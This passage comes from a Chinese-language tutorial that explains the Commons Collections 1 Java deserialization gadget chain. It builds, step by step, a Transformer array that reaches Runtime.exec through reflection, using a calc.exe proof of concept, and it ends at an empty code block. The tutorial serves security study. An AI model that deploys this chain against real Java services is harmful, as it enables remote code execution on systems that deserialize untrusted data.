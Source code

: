 我们最终要目的要执行
```java
Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")
```
先来获取getRuntime类
```java
//目标语句
Class.forName("java.lang.Runtime").getMethod("getRuntime")
//使用java.lang.Class开头
Class.forName("java.lang.Class").getMethod("getMethod", new Class[] {String.class, Class[].class })
        .invoke(Class.forName("java.lang.Runtime"),"getRuntime",new Class[0]);
        //invoke函数的第一个参数是Runtime类，我们需要在Runtime类中去执行getMethod，获取getRuntime参数
```
对照着InvokerTransformer类转变为transformers格式
```java
Class cls = input.getClass();//cls = java.lang.Class
Method method = cls.getMethod(this.iMethodName, this.iParamTypes); //getMethod方法
return method.invoke(input, this.iArgs); //在Runtime中找getRuntime方法，并返回这个方法
```
```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
       //还需要填充 调用getRuntime得到Runtime实例,
        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
};
```
还差执行获取到的getRuntime，下一个input是上一个执行接口，继续对照
```java
//input=getRuntime这个方法
Class cls = input.getClass();//cls = java.lang.Method（getRuntime方法是method类）
Method method = cls.getMethod(this.iMethodName, this.iParamTypes); //在method类中找到invoke方法，method=invoke方法
return method.invoke(input, this.iArgs); //调用invoke方法，input=getRuntime这个方法，传入自定义的参数
```
以上最后一步有点复杂，method就是invoke方法，相当于使用invoke调用了invoke函数。
首先this.iMethodName, this.iParamTypes是根据invoke接口而定的：
```java
public Object invoke(Object obj, Object... args)
//this.iMethodName="invoke"
//this.iParamTypes=new Class[] {Object.class, Object[].class }
//外面class、Object封装是InvokerTransformer类的构造函数要求
```
按照invoke中的input才是它要调用的环境的准则。
invoke方法.invoke(input, this.iArgs)实际上等于input.invoke(this.iArgs)，
而input=getRuntime方法，那么只要填入this.iArgs就好了
又由于getRuntime是个静态函数，不用太纠结输入obj，写作null。getRuntime方法不需要参数。
this.iArgs=null,new Object[0]
那么整合如下：
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
};
```
也就是我们[Commons Collections1的前置知识](https://www.yuque.com/da-labs/secnotes/dzakgq)里讲的payload，到了这里才讲到为什么构造前置知识中的payload
### TransformedMap
那么我们在第二步通过ConstantTransformer、ChainedTransformer就完成了**payload在客户端自定义**这一目标，我们看一下目前的攻击流程
```java
```